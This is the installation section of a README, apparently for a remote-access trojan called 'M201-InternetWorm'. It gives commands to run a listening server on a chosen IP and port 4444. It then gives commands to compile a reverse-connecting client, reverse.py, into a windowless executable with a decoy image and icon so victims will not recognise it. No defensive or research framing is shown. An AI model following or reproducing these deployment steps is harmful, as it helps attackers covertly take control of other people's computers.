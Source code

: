 ## 🛠️ Installation

### Prerequisites
```bash
# Python 3.x required
pip install colorama requests pillow

# For Linux icon extraction (optional)
sudo apt install icoutils binutils  # Ubuntu/Debian
```

### Server Setup
1. Clone the repository:
```bash
git clone https://github.com/your-repo/M201-InternetWorm.git
cd M201-InternetWorm
```

2. Run the server:
```bash
python server.py <YOUR_IP> <PORT>
# Example: python server.py 192.168.1.100 4444
```

### Client Deployment

#### Method 1: Direct Execution
```bash
# Edit reverse.py to set your server IP and port (line 162)
python reverse.py
```

#### Method 2: Compiled Executable (Recommended)
```bash
# Install PyInstaller
pip install pyinstaller

# Compile with decoy image
pyinstaller --add-data="decoy_image.jpg:." --onefile --noconsole --icon="icon.ico" reverse.py
```

#### Method 3: Linux Cross-Compilation
```bash
# Using Wine on Linux
wine pyinstaller.exe --add-data="decoy.jpg:." --onefile --noconsole --icon="icon.ico" reverse.py
```

## 📖 Usage

### Starting the Server
1. Run the server script with IP and port:
```bash
python server.py 192.168.1.100 4444
```
